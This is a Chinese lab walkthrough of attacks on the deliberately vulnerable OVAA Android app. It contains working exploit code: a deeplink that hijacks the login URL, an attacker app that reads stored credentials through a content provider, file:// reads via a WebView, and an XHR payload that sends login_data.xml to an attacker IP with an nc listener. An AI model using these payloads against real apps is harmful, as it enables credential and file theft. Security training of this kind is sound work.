# 项目部署

[oversecured/ovaa: Oversecured Vulnerable Android App (github.com)](https://github.com/oversecured/ovaa)👈下载源码

导入Android Studio，自动部署（JDK选择了1.8）

# 复现

## 更改login_url

### 分析

> Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.

首先查看login的逻辑：

1. 监听登录按钮，如果点击进行处理
   1. 如果`email`、`password`为空，则提示
   2. 不为空，则调用`processLogin`
2. processLogin
   1. 将`email`、`password`包装为对象，作为访问Login_url的参数
   2. `loginUtils.getLoginUrl()`取`LOGIN_URL`，在方法中检测是否为空，如果不为空则返回结果
   3. 将取得的URL和参数加入请求队列

```java
public class LoginUtils {
    public String getLoginUrl() {
        String url = preferences.getString(LOGIN_URL_KEY, null);
        if(TextUtils.isEmpty(url)) {
            url = context.getString(R.string.login_url);
            editor.putString(LOGIN_URL_KEY, url).commit();
        }
        return url;
    }
}


public class LoginActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_login);
        loginUtils = LoginUtils.getInstance(this);
        if(loginUtils.isLoggedIn()) {
            onLoginFinished();
            return;
        }
        findViewById(R.id.loginButton).setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                String email = ((TextView) findViewById(R.id.emailView)).getText().toString();
                String password = ((TextView) findViewById(R.id.passwordView)).getText().toString();
                if(TextUtils.isEmpty(email)) {
                    Toast.makeText(LoginActivity.this, "Email is emply!", Toast.LENGTH_LONG).show();
                    return;
                }
                if(TextUtils.isEmpty(password)) {
                    Toast.makeText(LoginActivity.this, "Password is emply!", Toast.LENGTH_LONG).show();
                    return;
                }
                processLogin(email, password);
            }
        });
    }

    private void processLogin(String email, String password) {
        // 登陆的 邮箱、密码
        LoginData loginData = new LoginData(email, password);
        // Log.d("ovaa", "Processing " + loginData);
        LoginService loginService = RetrofitInstance.getInstance().create(LoginService.class);
        Log.d("B1u", "Login(URL: " + loginUtils.getLoginUrl() + ", email: " + email + ", password: " + password + ")");
        loginService.login(loginUtils.getLoginUrl(), loginData).enqueue(new Callback<Void>() {
            @Override
            public void onResponse(Call<Void> call, Response<Void> response) {
                Log.d("B1u", "Login success: " + response.code());
            }
            @Override
            public void onFailure(Call<Void> call, Throwable t) {
                Log.d("B1u", "Login failed: " + t.getMessage());
            }
        });
        loginUtils.saveCredentials(loginData);
        onLoginFinished();
    }
}
```

在`DeeplinkActivity`中，app处理深度链接。

如果Intent为`ACTION_VIEW`且数据不为空，则使用`processDeeplink`进行处理。

着重看`login`的case，它会获取`uri`的参数`url`，如果`url`不为空，则设置其为`LOGIN_URL`对应的`value`。

```java

public class DeeplinkActivity extends AppCompatActivity {
    private static final int URI_GRANT_CODE = 1003;

    private LoginUtils loginUtils;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        loginUtils = LoginUtils.getInstance(this);
        Intent intent = getIntent();
        Uri uri;
        // 检测打开这个Activity的Intent是否是一个ACTION_VIEW的Intent
        if(intent != null
           && Intent.ACTION_VIEW.equals(intent.getAction())
           && (uri = intent.getData()) != null) {

            processDeeplink(uri);
        }
        finish();
    }

    private void processDeeplink(Uri uri) {
        // 检测URI的 协议是否是"oversecured" 域名是否为和"ovaa"
        if("oversecured".equals(uri.getScheme()) && "ovaa".equals(uri.getHost())) {
            // 获取URL路径
            String path = uri.getPath();
            if("/logout".equals(path)) {
                loginUtils.logout();
                startActivity(new Intent(this, EntranceActivity.class));
            }
            else if("/login".equals(path)) {
                // 获取URL参数
                String url = uri.getQueryParameter("url");
                if(url != null) {
                    // 设置登录URL为获取到的URL
                    Log.d("B1u", "ChangeLoginURL: " + url);
                    loginUtils.setLoginUrl(url);
                }
                startActivity(new Intent(this, EntranceActivity.class));
            }
            else if("/grant_uri_permissions".equals(path)) {
                Intent i = new Intent("oversecured.ovaa.action.GRANT_PERMISSIONS");
                if(getPackageManager().resolveActivity(i, 0) != null) {
                    startActivityForResult(i, URI_GRANT_CODE);
                }
            }
            else if("/webview".equals(path)) {
                String url = uri.getQueryParameter("url");
                if(url != null) {
                    String host = Uri.parse(url).getHost();
                    if(host != null && host.endsWith("example.com")) {
                        Intent i = new Intent(this, WebViewActivity.class);
                        i.putExtra("url", url);
                        startActivity(i);
                    }
                }
            }
        }
    }
}


public class LoginUtils {
    public void setLoginUrl(String url) {
        editor.putString(LOGIN_URL_KEY, url).commit();
    }
}
```

### 利用

将LOGIN_URL更改为`b1u.com`（假设`b1u.com`是恶意服务器）



浏览器访问`oversecured://ovaa/login?url=https://b1u.com`



logcat发现已经更改：



然后尝试登录，抓包发现账户与密码：



## 获取账户和密码

> Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.

### 分析

在LoginUtils类中，其在登录后保存了登录的`email`和`password`

```java

public class LoginUtils {
    private static LoginUtils utils;
    private Context context;
    private SharedPreferences preferences;
    private SharedPreferences.Editor editor;
    private LoginUtils(Context context) {
        this.context = context;
        preferences = context.getSharedPreferences("login_data", Context.MODE_PRIVATE);
        editor = preferences.edit();
    }
    public void saveCredentials(LoginData loginData) {
        editor.putString(EMAIL_KEY, loginData.email)
                .putString(PASSWORD_KEY, loginData.password)
                .commit();
    }
}
```

在`CredentialsProvider`的`query`提供了数据访问（取的是`LoginUtils`的数据），其有两个键值`email`和`password`

```java
public class CredentialsProvider extends ContentProvider {
    @Override
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        LoginData loginData = LoginUtils.getInstance(getContext()).getLoginData();
        MatrixCursor cursor = new MatrixCursor(new String[]{"email", "password"});
        cursor.addRow(new String[]{loginData.email, loginData.password});
        return cursor;
    }
}
```

AndroidManifest.xml中存在`android:grantUriPermissions="true"`，意味着对于请求访问 `ContentProvider` 的应用，系统会临时授予访问该 `ContentProvider` 的权限。

```xml
<provider android:name=".providers.CredentialsProvider" android:authorities="oversecured.ovaa.creds_provider" android:exported="false" android:grantUriPermissions="true" />
```

在`DeeplinkActivity`中，由设置 `Intent.FLAG_GRANT_READ_URI_PERMISSION` 标志位的`Intent`，他会找寻是否有能够处理这个Intent的Activity，然后交给他处理。

```java

public class DeeplinkActivity extends AppCompatActivity {
    private void processDeeplink(Uri uri) {
        if("oversecured".equals(uri.getScheme()) && "ovaa".equals(uri.getHost())) {
            String path = uri.getPath();
            ...
            else if("/grant_uri_permissions".equals(path)) {
                Log.d("B1u", "Granting URI permissions");
                Intent i = new Intent("oversecured.ovaa.action.GRANT_PERMISSIONS");
                // 检查是否有任何Activity可以处理这个Intent的
                if(getPackageManager().resolveActivity(i, 0) != null) {
                    startActivityForResult(i, URI_GRANT_CODE);
                }
            }
            ...
        }
    }
    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if(resultCode == -1 && requestCode == URI_GRANT_CODE) {
            if (data != null) {
                Log.d("B1u", "Return from ovaa: " + data.getDataString());
            }
            setResult(resultCode, data);
            finish();
        }
    }
}
```

因此，当有deeplink：`oversecured://ovaa/grant_uri_permissions`，app会让找到能够处理`oversecured.ovaa.action.GRANT_PERMISSIONS`的Activity，攻击者可以注册一个可以处理`oversecured.ovaa.action.GRANT_PERMISSIONS`的Activity，让其返回指定数据，app则会在onActivityResult中将其设置为result返回给产生deeplink：`oversecured://ovaa/grant_uri_permissions`的Activity。

实现读取`oversecured.ovaa.creds_provider`。

### 利用

首先将DeeplinkActivity类的代码进行修改。






#### 处理oversecured.ovaa.action.GRANT_PERMISSIONS

设置一个EvilActivity，使其可以处理`oversecured.ovaa.action.GRANT_PERMISSIONS`

```xml
<activity
          android:name=".EvilActivity"
          android:exported="true">
    <intent-filter>
        <action android:name="oversecured.ovaa.action.GRANT_PERMISSIONS" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

其逻辑为：

ovaa通过动作名为 `"oversecured.ovaa.action.GRANT_PERMISSIONS"` 的 `Intent`唤醒`EvilActivity`处理这个Intent，然后 `EvilActivity`会打开 `"content://oversecured.ovaa.creds_provider"`这个Uri，设置将这个Uri封装进Intent作为结果返回，并结束。

```java
public class EvilActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.first_layout);
        Intent i = new Intent("android.intent.action.VIEW");
        i.setData(Uri.parse("content://oversecured.ovaa.creds_provider"));
        i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        setResult(RESULT_OK, i);
        Log.d("B1u", "EvilActivity: Return data");
        finish();
    }
}
```

#### 发出deeplink：oversecured://ovaa/grant_uri_permissions

写一个Activity来发出deeplink，使ovaa发出 `"oversecured.ovaa.action.GRANT_PERMISSIONS"` 的 `Intent`。

然后在`onActivityResult`中，根据`requestCode`获取`result`，将该`result`进行解析，得到`email`和`password`。

```java
public class FirstActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.first_layout);
        Intent i = new Intent(Intent.ACTION_VIEW);
        i.setData(Uri.parse("oversecured://ovaa/grant_uri_permissions"));
        i.setClassName("oversecured.ovaa", "oversecured.ovaa.activities.DeeplinkActivity");
        Log.d("B1u", "Call ovaa using deeplink");
        startActivityForResult(i, 101);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        Log.d("B1u", "ResultCode: " + resultCode + " RequestCode: " + requestCode);
        if (resultCode == -1 && requestCode == 101) {
            Log.d("B1u", "Received result from ovaa");
            Uri myUri = data.getData();
            String[] cols = new String[] {"email", "password"};
            ContentResolver cr = getContentResolver();
            assert myUri != null;
            Cursor c = cr.query(myUri, cols, null, null, null);
            Log.d("B1u", "Retrun from ovaa" + DatabaseUtils.dumpCursorToString(c));
        }
    }
}
```

#### 验证

编译运行。

ovaa的logcat：



攻击者app的logcat：



成功获取登录的`email`和`password`（ovaa需要登录，否则为空）

## webview访问恶意URL和任意文件读取

> Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.

### 分析

当发出的deeplink的`url`参数的主机名以`example.com`结尾，ovaa就会使用`webview`去访问这个`url`。

但是这个`url`检测不严格，有以下两种情况可能会被攻击者利用：

1. 攻击者注册一个以`example.com`结尾的域名，如`b1uexample.com`，导致访问了恶意的URL
2. 攻击者可以利用`file`协议，去任意读取文件

```java
public class DeeplinkActivity extends AppCompatActivity {
    private void processDeeplink(Uri uri) {
        // 检测URI的 协议是否是"oversecured" 域名是否为和"ovaa"
        if("oversecured".equals(uri.getScheme()) && "ovaa".equals(uri.getHost())) {
            // 获取URL路径
            String path = uri.getPath();
            ...
            else if("/webview".equals(path)) {
                String url = uri.getQueryParameter("url");
                if(url != null) {
                    String host = Uri.parse(url).getHost();
                    if(host != null && host.endsWith("example.com")) {
                        Intent i = new Intent(this, WebViewActivity.class);
                        i.putExtra("url", url);
                        startActivity(i);
                    }
                }
            }
        }
    }
}

public class WebViewActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_web_view);
        WebView webView = findViewById(R.id.webview);
        setupWebView(webView);
        webView.loadUrl(getIntent().getStringExtra("url"));
    }

    private void setupWebView(WebView webView) {
        webView.setWebChromeClient(new WebChromeClient());
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setJavaScriptEnabled(true);
        webView.getSettings().setAllowFileAccessFromFileURLs(true);
    }
}
```

### 利用

#### 使用example.com结尾的恶意URL

浏览器访问`oversecured://ovaa/webview?url=http://b1uexample.com`

ovaa访问了我设置的URL



#### 使用file协议

使用file协议任意读取文件。

先执行：



然后通过该deeplink读取创建的文件：`oversecured://ovaa/webview?url=file://example.com/data/local/tmp/secret`，成功读取。



还可以读取登录的账号密码存储的xml：

`oversecured://ovaa/webview?url=file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml`



## 利用XML请求任意读取文件

> Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.

与上一节类似，可通过`oversecured://ovaa/webview?url=http://evilexample.com`，只是这次可利用XHR将获取的内容给到攻击者服务器。

创建html，将其放在`/data/local/tmp/test.html`。

其会去访问`file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml`，然后将内容经过base64编码后发送给本地9999端口。

```html
<html>
    <body>
        <p>Test1</p>
        <script type="text/javascript">
            var url = "file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml"
            function load(url) {    
                var xhr = new XMLHttpRequest();
                xhr.onreadystatechange = function() {
                    if (xhr.readyState === 4) {
                        location.href = "http://192.168.244.107:9999/?exfiltrated=" + btoa(xhr.responseText);
                    }
                }
                xhr.open("GET", url, true);
                xhr.send();
            }
            load(url);
        </script>
    </body>
</html>
```

然后利用`adb_lemu.exe shell am start -n oversecured.ovaa/oversecured.ovaa.activities.DeeplinkActivity -a android.intent.action.VIEW -d "oversecured://ovaa/webview?url=file://example.com/data/local/tmp/test.html"`调用`DeeplinkActivity`令其解析。

并且`nc -lvnp 9999`在9999端口监听发送来的数据。

成功获取数据，只是由于https，数据被加密了



